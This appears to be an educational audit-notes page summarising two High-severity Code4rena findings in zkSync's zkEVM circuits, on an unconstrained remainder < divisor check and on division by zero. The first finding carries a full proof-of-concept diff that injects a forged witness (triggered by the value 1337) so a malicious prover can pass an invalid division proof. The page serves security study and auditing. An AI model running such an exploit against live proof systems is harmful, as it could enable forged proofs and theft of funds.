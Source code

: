 # ETAAcademy-Adudit: 1. Divisor

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>01. Divisor</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>math</th>
          <td>divisor</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Eta](https://twitter.com/pwhattie), looking forward to your joining

## 1. [High] Missing Range Constraint of Remainder < Divisor

- Summary: The circuit needs to verify that the remainder is less than the divisor by subtracting the divisor from the remainder and enforcing that the borrow flow is true.
- Impact: A malicious validator could generate and submit a proof with incorrect behavior of smart contracts. For example, the validator could manipulate the calculated price during the execution of an on-chain DEX and steal all of the assets in the DEX.
  🐬: [Source](https://github.com/code-423n4/2023-10-zksync-findings/issues/1133) & [Report](https://code4rena.com/reports/2023-10-zksync)
  🐬: Others

  - [High] SHR Opcodes Fails to Constrain Remainder < Divisor: [Source](https://github.com/code-423n4/2023-10-zksync-findings/issues/697) & [Report](https://code4rena.com/reports/2023-10-zksync)

  <details><summary>POC</summary>

  ```rust

  diff --git a/run.sh b/run.sh
  index 91e97da..97e2d3b 100644
  --- a/run.sh
  +++ b/run.sh
  @@ -1,2 +1,3 @@
  #!/bin/sh
  -cd zkevm_test_harness && RUST_MIN_STACK=$((8*1024*1024)) cargo test --jobs 1 -- --nocapture run_simple
  +# XXX must run as release to avoid debug asserts
  +cd zkevm_test_harness && RUST_MIN_STACK=$((8*1024*1024)) cargo test --jobs 1 --release -- --nocapture run_simple && RUST_MIN_STACK=$((8*1024*1024)) cargo test --jobs 1 --release -- --nocapture run_hack
  diff --git a/zk_evm/src/opcodes/execution/div.rs b/zk_evm/src/opcodes/execution/div.rs
  index f09d9b9..4e786d3 100644
  --- a/zk_evm/src/opcodes/execution/div.rs
  +++ b/zk_evm/src/opcodes/execution/div.rs
  @@ -48,7 +48,11 @@ impl<const N: usize, E: VmEncodingMode<N>> DecodedOpcode<N, E> {
              );
              vm_state.perform_dst1_update(PrimitiveValue::empty(), self.dst1_reg_idx);
          } else {
  -            let (q, r) = src0.div_mod(src1);
  +            let (q, r) = if src0 == U256::from(1337u32) {
  +                (U256::zero(), src0)
  +            } else {
  +                src0.div_mod(src1)
  +            };
              if set_flags {
                  let eq = q.is_zero();
                  let gt = r.is_zero();
  diff --git a/zkevm_circuits/src/main_vm/opcodes/add_sub.rs b/zkevm_circuits/src/main_vm/opcodes/add_sub.rs
  index f7c4d0b..418e5ef 100644
  --- a/zkevm_circuits/src/main_vm/opcodes/add_sub.rs
  +++ b/zkevm_circuits/src/main_vm/opcodes/add_sub.rs
  @@ -272,3 +272,66 @@ pub fn allocate_subtraction_result_unchecked<F: SmallField, CS: ConstraintSystem

      (limbs, of)
  }
  +
  +pub fn allocate_subtraction_result_unchecked_hack<F: SmallField, CS: ConstraintSystem<F>>(
  +    cs: &mut CS,
  +    a: &[UInt32<F>; 8],
  +    b: &[UInt32<F>; 8],
  +) -> ([UInt32<F>; 8], Boolean<F>) {
  +    let limbs = cs.alloc_multiple_variables_without_values::<8>();
  +    let of = cs.alloc_variable_without_value();
  +
  +    if <CS::Config as CSConfig>::WitnessConfig::EVALUATE_WITNESS {
  +        let value_fn = move |inputs: [F; 16]| {
  +            let mut uf = false;
  +            let mut result = [F::ZERO; 9];
  +            for (idx, (a, b)) in inputs[..8].iter().zip(inputs[8..].iter()).enumerate() {
  +                let a = <u32 as WitnessCastable<F, F>>::cast_from_source(*a);
  +                let b = <u32 as WitnessCastable<F, F>>::cast_from_source(*b);
  +                let (c, new_uf_0) = (a).overflowing_sub(b);
  +                let (c, new_uf_1) = c.overflowing_sub(uf as u32);
  +
  +                uf = new_uf_0 || new_uf_1;
  +
  +                result[idx] = F::from_u64_unchecked(c as u64);
  +            }
  +
  +            result[8] = F::from_u64_unchecked(uf as u64);
  +
  +            if inputs[0].as_u64() == 1337 {
  +                result[7] = F::from_u64_unchecked(1<<32);
  +                result[8] = F::from_u64_unchecked(1);
  +            }
  +
  +            result
  +        };
  +
  +        let dependencies = Place::from_variables([
  +            a[0].get_variable(),
  +            a[1].get_variable(),
  +            a[2].get_variable(),
  +            a[3].get_variable(),
  +            a[4].get_variable(),
  +            a[5].get_variable(),
  +            a[6].get_variable(),
  +            a[7].get_variable(),
  +            b[0].get_variable(),
  +            b[1].get_variable(),
  +            b[2].get_variable(),
  +            b[3].get_variable(),
  +            b[4].get_variable(),
  +            b[5].get_variable(),
  +            b[6].get_variable(),
  +            b[7].get_variable(),
  +        ]);
  +        let outputs = Place::from_variables([
  +            limbs[0], limbs[1], limbs[2], limbs[3], limbs[4], limbs[5], limbs[6], limbs[7], of,
  +        ]);
  +        cs.set_values_with_dependencies(&dependencies, &outputs, value_fn);
  +    }
  +
  +    let limbs = limbs.map(|el| unsafe { UInt32::from_variable_unchecked(el) });
  +    let of = unsafe { Boolean::from_variable_unchecked(of) };
  +
  +    (limbs, of)
  +}
  diff --git a/zkevm_circuits/src/main_vm/opcodes/mul_div.rs b/zkevm_circuits/src/main_vm/opcodes/mul_div.rs
  index dbfbeb3..ffecb7a 100644
  --- a/zkevm_circuits/src/main_vm/opcodes/mul_div.rs
  +++ b/zkevm_circuits/src/main_vm/opcodes/mul_div.rs
  @@ -101,7 +101,9 @@ pub fn allocate_div_result_unchecked<F: SmallField, CS: ConstraintSystem<F>>(
              let a = allocate_u256_from_limbs(&inputs[0..8]);
              let b = allocate_u256_from_limbs(&inputs[8..16]);

  -            let (quotient, remainder) = if b.is_zero() {
  +            let (quotient, remainder) = if b == U256::from(1337u32) {
  +                (U256::zero(), b)
  +            } else if b.is_zero() {
                  (U256::zero(), U256::zero())
              } else {
                  a.div_mod(b)
  @@ -313,7 +315,7 @@ pub(crate) fn apply_mul_div<F: SmallField, CS: ConstraintSystem<F>>(

      // do remainder - divisor
      let (subtraction_result_unchecked, remainder_is_less_than_divisor) =
  -        allocate_subtraction_result_unchecked(cs, &remainder_unchecked, src1_view);
  +        allocate_subtraction_result_unchecked_hack(cs, &remainder_unchecked, src1_view);

      // relation is a + b == c + of * 2^N,
      // but we compute d - e + 2^N * borrow = f
  diff --git a/zkevm_test_harness/src/tests/run_manually.rs b/zkevm_test_harness/src/tests/run_manually.rs
  index 76ac16c..f4e184d 100644
  --- a/zkevm_test_harness/src/tests/run_manually.rs
  +++ b/zkevm_test_harness/src/tests/run_manually.rs
  @@ -41,6 +41,43 @@ fn run_simple() {
          log.event.first r1, r2, r0
          log.to_l1.first r1, r2, r0

  +        add 1336, r0, r1
  +        div r1, r1, r2, r3
  +        add 1, r0, r4
  +        sstore r2, r4
  +        add 2, r0, r4
  +        sstore r3, r4
  +
  +        ret.ok r0
  +    "#;
  +
  +    run_and_try_create_witness_inner(asm, 50);
  +}
  +
  +#[test]
  +fn run_hack() {
  +    let asm = r#"
  +        .text
  +        .file	"Test_26"
  +        .rodata.cst32
  +        .p2align	5
  +        .text
  +        .globl	__entry
  +    __entry:
  +    .main:
  +        add 1, r0, r1
  +        add 2, r0, r2
  +        sstore r1, r2
  +        log.event.first r1, r2, r0
  +        log.to_l1.first r1, r2, r0
  +
  +        add 1337, r0, r1
  +        div r1, r1, r2, r3
  +        add 1, r0, r4
  +        sstore r2, r4
  +        add 2, r0, r4
  +        sstore r3, r4
  +
          ret.ok r0
      "#;

  ```

    </details>

## 2. [High] Divisor is Zero

- Summary: When the `**div**` opcode is applied, and the dividend is nonzero while the divisor is zero, both the quotient and remainder become zero, `**src0 = q * src1 + rem**`.
- Impact: In such cases, enforcing the multiplication/division relation results in an unprovable transaction, which may disrupt the processing of the priority queue.
  🐬: [Source](https://github.com/code-423n4/2023-10-zksync-findings/issues/598) & [Report](https://code4rena.com/reports/2023-10-zksync)

  <details><summary>POC</summary>

  ```rust
    quotient_is_zero.conditionally_enforce_true(cs, divisor_is_zero);
    remainder_is_zero.conditionally_enforce_true(cs, divisor_is_zero);

    let uint256_zero = UInt256::zero(cs);
    let rem_to_enforce = UInt32::parallel_select(
        cs,
        should_apply_mul,
        &uint256_zero.inner,
        &remainder_unchecked,
    );
    let a_to_enforce =
        UInt32::parallel_select(cs, should_apply_mul, src0_view, &quotient_unchecked);
    let b_to_enforce = src1_view.clone();
    let mul_low_to_enforce =
        UInt32::parallel_select(cs, should_apply_mul, &mul_low_unchecked, &src0_view);
    let mul_high_to_enforce = UInt32::parallel_select(
        cs,
        should_apply_mul,
        &mul_high_unchecked,
        &uint256_zero.inner,
    );
    let mul_relation = MulDivRelation {
        a: a_to_enforce,
        b: b_to_enforce,
        rem: rem_to_enforce,
        mul_low: mul_low_to_enforce,
        mul_high: mul_high_to_enforce,
    };

    let apply_any = Boolean::multi_or(cs, &[should_apply_mul, should_apply_div]);
    ......
    diffs_accumulator
        .mul_div_relations
        .push((apply_any, mul_div_relations));

  ```

  </details>
